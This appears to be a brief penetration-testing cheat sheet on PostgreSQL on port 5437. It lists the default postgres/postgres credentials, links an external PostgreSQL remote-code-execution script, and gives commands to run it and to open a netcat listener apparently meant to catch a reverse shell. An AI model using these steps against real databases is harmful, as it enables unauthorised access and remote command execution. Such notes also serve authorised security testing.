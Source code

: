 # ,5437 - Postgres

### Default creds:

<table><thead><tr><th>Username</th><th>Password</th><th data-hidden></th></tr></thead><tbody><tr><td>postgres</td><td>postgres</td><td></td></tr><tr><td></td><td></td><td></td></tr><tr><td></td><td></td><td></td></tr></tbody></table>

### Command execution:

{% embed url="https://github.com/squid22/PostgreSQL_RCE/blob/main/postgresql_rce.py" %}

```
python3 postgresql_rce.py
nc -lvnp 80
```
